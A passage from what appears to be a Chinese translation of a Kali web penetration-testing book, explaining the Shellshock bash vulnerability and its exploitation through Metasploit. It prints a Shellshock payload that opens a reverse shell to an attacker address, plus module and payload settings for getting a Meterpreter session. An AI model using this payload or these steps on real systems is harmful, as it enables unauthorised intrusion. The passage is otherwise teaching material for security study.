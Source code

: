 ```

() { :;}; /bin/bash -c "ping -c 1 10.7.7.4; bash -i >& /dev/tcp/10.7.7.4/12345 0>&1"

```

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/web-pentest-kali-3e/img/00123.jpeg)

bash shell 将变量解释为命令并执行它，而不是接受变量作为字符序列。这看起来与先前讨论的命令注入漏洞非常相似。然而，这里的主要区别在于，bash shell 本身易受代码注入的影响，而不是网站。由于许多应用程序（如 DHCP、SSH、SIP 和 SMTP）都使用 bash shell，因此攻击面大大增加。通过 HTTP 请求利用漏洞仍然是最常见的方法，因为 bash shell 经常与 CGI 脚本一起使用。

要识别 Web 服务器中的 CGI 脚本，除了使用代理分析请求和响应之外，还可以使用**Nikto**和**DIRB**。

# 使用 Metasploit 进行利用

从终端启动 Metasploit 控制台 (`msfconsole`)。你需要在 `exploit/multi/http` 下选择 `apache_mod_cgi_bash_env_exec` 利用程序：

```

use exploit/multi/http/apache_mod_cgi_bash_env_exec

```

然后，你需要使用 `set` 命令定义远程主机和目标 URI 值。你还需要选择 `reverse_tcp` 负载，该负载将使 Web 服务器连接到攻击者的机器。可以通过导航到 linux | x86 | meterpreter 找到此选项。

确保本地主机 (`SRVHOST`) 和本地端口 (`SRVPORT`) 的值是正确的。你可以使用 `set` 命令设置这些值和其他值：

```

set SRVHOST 0.0.0.0

set SRVPORT 8080

```

使用 `0.0.0.0` 主机，服务器将通过黑客启用的所有网络接口进行侦听。此外，请验证黑客机器上选定的端口是否已经有服务在运行：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/web-pentest-kali-3e/img/00124.jpeg)

一旦准备就绪，请输入 `exploit`，如果服务器容易受到 shellshock 攻击，则会看到 `meterpreter` 提示符。*对于黑客来说，shell 是最有价值的财产*。`meterpreter` 会话是在后渗透阶段非常有用的工具。在这个阶段，黑客真正了解到他们已经入侵的机器的价值。Meterpreter 拥有大量内置命令。

Meterpreter 是 Metasploit 中包含的高级远程 Shell。在 Windows 系统中执行时，它包括提升权限、转储密码和密码哈希、模拟用户、嗅探网络流量、记录按键并在目标机器上执行许多其他利用的模块。

以下截图显示了 `sysinfo` 命令的输出和 Meterpreter 中的远程系统 shell：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/web-pentest-kali-3e/img/00125.jpeg)

# SQL 注入

与后端数据库进行交互以检索和写入数据是 Web 应用程序执行的最关键任务之一。将数据存储在一系列表中的关系数据库是实现此目的的最常见方法，而对于查询信息，**结构化查询语言**（**SQL**）是事实上的标准。
